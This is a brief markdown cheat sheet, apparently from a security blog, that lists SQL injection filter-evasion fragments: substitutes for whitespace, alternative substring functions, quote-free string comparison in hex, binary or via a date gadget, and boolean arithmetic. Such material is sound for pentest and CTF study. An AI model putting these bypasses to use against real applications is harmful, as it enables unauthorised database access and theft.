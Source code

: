 ```yaml
---
title: ["SQL Injection Cheat Sheet"]
date: 2024-12-01 09:00:00 +0900
categories: [cheatsheet, sqli]
tags: [web, cheatsheet]
---
```


### White Space
```
%20  // SPACE
%09  // HORIZONTAL TAB
%0a  // LINE FEED
%0b  // VERTICAL TAB
%0c  // FORM FEED
%0d  // CARRIAGE RETURN
%a0  // NBSP
/**/
select(id)from(table)where(id=1)
```

### Substring
```
substr(id,1,1)
substr(id from 1 for 1)
mid(id,1,1)
right(left(id,1),1)
lpad(id,1,space(1))
reverse(right(reverse(id),1))
convert(id,char(1))
```

### String Compare without Single Quotation
```
admin=0x61646d696e                                 // using Hex
admin=0b0110000101100100011011010110100101101110   // using Binary
substr(monthname(from_unixtime(1)),2,1)='a'        // using Gadget
```

### Number Expression
```
True = 1
False = 0
True+True = 2
True-True = 0
```